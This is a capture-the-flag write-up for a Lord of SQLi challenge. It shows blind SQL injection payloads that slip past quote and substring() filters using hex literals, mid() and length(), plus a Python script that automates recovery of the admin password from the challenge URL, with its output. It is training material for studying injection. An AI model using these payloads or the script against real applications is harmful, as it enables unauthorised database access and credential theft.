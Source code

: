 ```yaml
---
custom_edit_url: null
sidebar_position: 12
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6cde625d-39f4-4536-bdd2-e4bacc1b7d44)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='{$_GET[pw]}' AND no={$_GET[no]}
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

This challenge also filters out the quotes character. 

We have to use Hexadecimal representations instead of strings. Alternatively, we can use the double-quote (`"`) character to bypass the filter.

## Blind SQL Injection

### Retrieving the password length

If we provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/70be2f68-c530-4dcc-a541-a9b8938765df)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/a1ed7953-f711-4a32-9573-2eeb70fb0e4b)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

This challenge also filters the `substring()` function.

Therefore, in order to leak the password, we will have to use the `mid()` function.
#### `mid()`

![3](https://github.com/Kunull/Write-ups/assets/110326359/2a05edee-9e1c-43b3-8970-4ea391376a28)

If we provide the following URI parameter:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/89f8306f-902d-4bdc-bd15-4357ce6586b3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0x30` which is `0`.

We can move onto the second character:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/227d4a99-7fca-41ba-a579-55a57325abea)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0x30` which is `0`.

We can keep repeating this process until we get all the eight characters of the admin password:

```
0b70ea1f
```

### Script

We can automate the entire process using a script.

```python title="darkknight_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'd6k46orbbik0hppkki48hqdg9k'}
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
password_length = 0

for x in range(0, 10):
  payload = f'0 OR id LIKE "admin" AND length(pw) LIKE {x}'
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?no={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f'[!] Payload: ?no={payload}')
print(f'[!] Payload (URL encoded): ?no={encoded_payload}')
print(f'[!] Password length: {password_length}')

password = ''
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f'0 OR id LIKE "admin" AND mid(pw, {index}, 1) LIKE "{char}"'
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?no={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if 'Hello admin' in response.text:
      password += char
      print()
      print(f'[+] Payload: ?no={payload}')
      print(f'[+] Payload (URL encoded): ?no={encoded_payload}')
      print(f'[+] Character at index {index}: {char}')
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
python .\darkknight_script.py

[!] Payload: ?no=0 OR id LIKE "admin" AND length(pw) LIKE 8
[!] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+length%28pw%29+LIKE+8
[!] Password length: 8

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 1, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+1%2C+1%29+LIKE+%220%22
[+] Character at index 1: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 2, 1) LIKE "b"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+2%2C+1%29+LIKE+%22b%22
[+] Character at index 2: b

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 3, 1) LIKE "7"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+3%2C+1%29+LIKE+%227%22
[+] Character at index 3: 7

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 4, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+4%2C+1%29+LIKE+%220%22
[+] Character at index 4: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 5, 1) LIKE "e"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+5%2C+1%29+LIKE+%22e%22
[+] Character at index 5: e

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 6, 1) LIKE "a"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+6%2C+1%29+LIKE+%22a%22
[+] Character at index 6: a

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 7, 1) LIKE "1"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+7%2C+1%29+LIKE+%221%22
[+] Character at index 7: 1

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 8, 1) LIKE "f"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+8%2C+1%29+LIKE+%22f%22
[+] Character at index 8: f

[!] Extracted password: 0b70ea1f
[!] Final payload: ?pw=0b70ea1f
```

Now, we can provide password URI parameter:

```
?pw=0b70ea1f
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='0b70ea1f' AND no=
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/57213d19-deff-48b5-9681-d2cc8de28edf)
